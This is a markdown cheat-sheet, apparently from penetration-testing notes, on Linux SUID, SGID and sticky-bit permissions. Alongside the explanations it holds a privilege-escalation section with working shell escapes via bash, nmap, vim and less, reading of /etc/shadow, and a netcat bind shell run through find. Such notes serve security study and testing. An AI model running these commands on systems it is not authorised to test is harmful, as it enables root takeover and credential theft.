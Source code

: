# suid (set user id)

> when a command or script with suid bit set is run, its effective uid becomes that of the owner of the file, rather than of the user who is running it

    # set it
    chmod 4555 <file>
    ls -lrt <file>

    # find them
    find / -user root -perm -4000 -print 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} \;

## privilege escalation
    
    bash -p -i  # -p is critical
    
    nmap --interactive
    !sh

    find pentestlab -exec whoami \;
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;

    vim.tiny /etc/shadow
    ESC
    :set shell=/bin/sh
    :shell

    less /etc/passwd
    !/bin/sh

[More binary commands](./ishell.md)

# guid (set group id)

> sgid permission is similar to the suid permission, only difference is – when the script or command with sgid on is run, it runs as if it were a member of the same group in which the file is a member

    # set it
    chmod g+s <dir>
    chmod 2555 <file>

    # find them
    find / -perm -g=s -type f 2>/dev/null

– the setgid permission displays as an "s" in the group’s execute field
- if lowercase letter "l" appears in the group’s execute field, it indicates that the setgid bit is on, and the execute bit for the group is off or denied

# sticky bit

> shared directories such as /var/tmp and /tmp because users can create files, read and execute files owned by other users, but are not allowed to remove files owned by other users

    # set it
    chmod +t <dir>
    chmod 1777 <dir>

- T refers to when the execute permissions are off.
- t refers to when the execute permissions are on.
